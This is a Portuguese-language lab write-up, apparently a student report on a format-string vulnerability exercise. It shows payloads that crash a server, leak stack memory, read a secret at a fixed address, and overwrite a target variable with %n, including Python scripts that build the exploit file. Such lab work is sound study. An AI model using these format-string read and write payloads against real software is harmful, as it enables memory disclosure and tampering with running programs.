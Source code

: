 ### Task 1

Ao ler 'hello' de input:

![hello](https://user-images.githubusercontent.com/123839132/231914295-4263fe2a-b4c6-4131-b0b1-d9af5f97254b.png)
![hello_result](https://user-images.githubusercontent.com/123839132/231913955-0a896828-834d-4b75-8ac8-b5d9d6be88e7.png)

Isto significa que correu tudo como esperado.

O nosso objetivo é fornecer um input ao servidor de tal forma que quando o servidor tenta imprimir o input usando a função myprintf vai crashar.Se não retornar "Returned Properly" significa que o programa crashou.

Ao ler '%s' de input:

![echo_command](https://user-images.githubusercontent.com/123839132/231913242-f7b24029-b042-47c5-a195-f99b2b672ab1.png)
![result](https://user-images.githubusercontent.com/123839132/231913246-427c4b28-7b48-417c-aca3-9dd87224a743.png)

Para resolver esta tarefa, só precisámos fornecer "%s" como entrada para o servidor e o programa crasha com sucesso. Isto acontece porque a chamada printf() com %s requer que o argumento seja um ponteiro para um array de char, mas nesta chamada nenhum argumento é fornecido. Assim,a função tentará imprimir o primeiro elemento da pilha, mas como o primeiro elemento da pilha não é uma string, o programa crasha.

### Task 2

#### Task 2.a

O input de 4 bytes que decidimos escrever foi "AAAA" de forma a ser mais fácil identificar (0x41414141). Assim, o objetivo foi procurar por este último valor no nosso output para saber exatamente quantos especificadores de formato %x precisavamos.
Após algumas tentivas, acabamos por perceber que precisávamos de 64%x para imprimir o nosso input.

![task2a_echo](https://user-images.githubusercontent.com/123839132/232046635-7654aad2-0ae9-4be1-8dc8-aa936b97856c.png)
![Task2a_result](https://user-images.githubusercontent.com/123839132/232046650-860400c9-2637-418d-88ea-d46df73c964c.png)

Como já sabiamos que apenas precisávamos de 64%x para imprimir o nosso input, reduzimos o número de %x para verificar se o último endereço impresso seria o pretendido.
![Task2_echo_quantidade_certa](https://user-images.githubusercontent.com/123839132/232046699-55e293b4-4cdb-45cf-8395-39954dd6942b.png)
![Task2a_result_quanti_certa](https://user-images.githubusercontent.com/123839132/232046710-30e05d49-beab-4268-a6d0-89f3de2e4c68.png)

#### Task 2.b

Depois de saber a localização dos primeiros 4 bytes de nossa entrada, para obter a mensagem secreta, basta adicionar o endereço da mensagem secreta à string, seguido da quantidade certa de %x, para ir para o endereço correto da stack. Depois, precisamos adicionar um %s para que imprima o valor daquele endereço de memória, assim:

``number  = 0x080b4008``

``s = "\x08\x40\x0b\x08" + ".%x"*63 + "%s"``

Obtendo o seguinte:

![Screenshot from 2023-04-14 17-00-27](https://user-images.githubusercontent.com/124071367/232096042-a2cd709b-7687-47d5-904f-ad1be45b1620.png)

### Task 3

#### Task 3.a

Para modificar o valor do target, basta aplicar a mesma lógica que fizemos para mostrar a mensagem secreta na Task anterior. Primeiramente, precisamos converter o endereço do alvo ``number  = 0x080e5068`` para Little-Endian, seguido de uma certa quantidade de %x.
A única diferença é que agora, invés de querer ver a string, dada pelo %s, queremos modificar o valor, tendo que substituir o %s por um %n.

``s = "\x68\x50\x0e\x08" + ".%x"*63 + "%n\n"``

![Screenshot from 2023-04-14 17-21-49](https://user-images.githubusercontent.com/124071367/232100926-92bc0367-620e-4663-bbe4-62098b274818.png)

Depois de executar o script, alteramos o valor com sucesso
![Screenshot from 2023-04-14 17-13-41](https://user-images.githubusercontent.com/124071367/232099228-44cb2ba0-6285-42a2-8cab-bfd2acc87e95.png)

#### Task 3.b

``Para este exercício encontramos duas formas de resolução um pouco distintas.``

O objetivo desta tarefa era alterarmos o valor de destino para 0x5000. Também sabemos que para para conseguirmos “alterar” o valor de ``0x5000`` precisamos de imprimir 20480 caracteres ( Valor do 0x5000 em hexadecimal) antes do “%n”.

##### 1ªresolução:

Como a variável number e abcd ocupam, cada um, 4 bytes como diz em comentário no código, começamos por fazer 20480 - 8 = 20472. Depois como a nossa string dada como input ocupa 4 bytes subtraimos 4 a 20472 que dá 20468. Portanto, para imprimir 0x5000 (20480), precisamos que cada chamada %x tenha uma precisão de 330 (20468/62 = 330.12) caracteres e mais  8 caracteres , uma vez que 20468 - 330 * 62 = 8.

```ruby
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "\x68\x50\x0e\x08" + "%.330x" * 62 + "%.8x" + "%n\n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![Screenshot from 2023-04-14 23-06-10](https://user-images.githubusercontent.com/124071367/232166327-a8084e54-20c8-485a-a456-149b037b1103.png)

##### 2ªresolução:

O numero máximo de caracteres que podemos inserir é 1500, devido ao buffer.

```ruby
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

content[4:8]  =  ("abcd").encode('latin-1')

s = "%.10x"*62 + "%.19852x" + "%n\n"

fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

- Usamos o "%.10x" para imprimir cada valor hexadecimal com uma largura mínima de 10, escolhemos este valor por causa da quantidade de caracteres do "number".
- "%.10x * 62 = 620 e então subtraindo ao numero de caracteres que temos que imprimir obtemos 19860.
- A esse valor subtraímos 8 , devido aos bytes já utilizados na nossa memória, sobrando 19852 caracteres.

![terminal](https://user-images.githubusercontent.com/123839132/232353134-0b6ff215-91ff-4e25-bd00-df51f3b4f0a8.png)
